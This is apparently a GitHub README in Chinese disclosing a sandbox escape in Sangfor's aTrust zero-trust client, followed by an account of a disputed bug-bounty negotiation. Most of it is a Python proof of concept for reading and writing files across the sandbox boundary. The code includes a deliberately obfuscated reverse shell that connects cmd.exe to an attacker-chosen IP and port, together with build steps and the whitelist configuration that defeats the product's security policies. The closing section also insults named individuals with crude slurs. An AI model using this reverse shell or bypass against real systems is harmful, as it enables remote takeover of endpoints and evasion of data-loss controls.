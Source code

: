 # SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）

![Visitor Count](https://profile-counter.glitch.me/SXF_aTrust_sandbox_bypass/count.svg)


# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读
![](1.png)
![](2.png)

# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell, **给出了收录价格**
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息


### 仲裁情况？
![](3.png)

群聊完整图：待补


### 为什么不让小团体仲裁？

赛博大佬说用github都是卖国的，小心赛博大佬黑了你们。

留个位置先，这位更是重量级傻狗。

![](4.jpg)

